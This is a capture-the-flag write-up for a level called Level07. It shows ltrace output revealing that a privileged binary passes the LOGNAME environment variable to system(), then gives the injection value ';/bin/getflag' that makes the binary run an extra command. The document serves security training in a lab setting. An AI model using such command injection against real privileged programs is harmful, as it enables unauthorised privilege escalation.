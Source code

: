 ## Level07
### Description
The level 07 user has an executable **level07**,  which user is `flag07`.

## Solution
- Thanks to ltrace we know that the environement variable LOGNAME is used .<br>We need to modifie it to execute getflag in the program.

```bash
ltrace ./level07 
__libc_start_main(0x8048514, 1, 0xbffff7f4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                      = 2007
geteuid()                                          = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                         = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)                                         = 0
getenv("LOGNAME")                                                                           = "level07"
asprintf(0xbffff744, 0x8048688, 0xbfffff48, 0xb7e5ee55, 0xb7fed280)                         = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                      = 0
+++ exited (status 0) +++
```

- We change the value of LOGNAME as :
`LOGNAME=';/bin/getflag'`

- When execute now `./level07` show the flag.
